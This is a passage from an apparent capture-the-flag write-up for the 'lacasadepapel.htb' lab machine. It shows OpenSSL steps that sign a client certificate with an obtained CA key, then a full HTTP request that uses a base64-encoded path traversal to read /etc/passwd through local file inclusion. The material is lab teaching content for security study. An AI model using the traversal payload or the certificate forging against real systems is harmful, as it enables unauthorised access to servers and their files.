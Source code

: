 ```
What you are about to enter is what is called a Distinguished Name or a DN.                                        
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.                                                                    
-----                 
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:NY
Locality Name (eg, city) []:NYC
Organization Name (eg, company) [Internet Widgits Pty Ltd]:Marvel
Organizational Unit Name (eg, section) []:DC
Common Name (e.g. server FQDN or YOUR name) []:b0d
Email Address []:sslurp@protonmail.com

Please enter the following 'extra' attributes
to be sent with your certificate request
A challenge password []:
An optional company name []:
```
 Now that we have the certificate signing request we can sign our certificate
 ```
 [root@kali ssl ]$ openssl x509 -req -in client.csr -CA ca.pem -CAkey ca.key -set_serial 9001 -extensions client -da
 ys 9002 -outform PEM -out client.cer
 Signature ok
 subject=C = US, ST = NY, L = NYC, O = Marvel, OU = DC, CN = b0d, emailAddress = sslurp@protonmail.com
 Getting CA Private Key
 ```
now we need to convert the certificate in a format that can be interpreted by firefox.  
To do so we can run the following command.  
```
[root@kali ssl ]$ openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12                  
Enter Export Password:
Verifying - Enter Export Password:
```
that is just a combination of client.key and client.cer and client.cer is just a signed version of the .csr.  
Now we can import the certificate and try to access the website again.  
As we can see we get a list of .avi files.  
If we notice the .avi files URLs carefully, we can see that there is a string that is slightly changing from one to another.  
If we try do base64 decode the URL, we can see that this is leaking the filepath.  
Now we can try to see if we can do a LFI injecting unexpected file paths, for example:  
```
GET /file/Li4vLi4vLi4vZXRjL3Bhc3N3ZA== HTTP/1.1
Host: lacasadepapel.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://lacasadepapel.htb/?path=SEASON-1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Te: trailers
Connection: close
```
(Li4vLi4vLi4vZXRjL3Bhc3N3ZA== is ../../../etc/passwd) we do get:  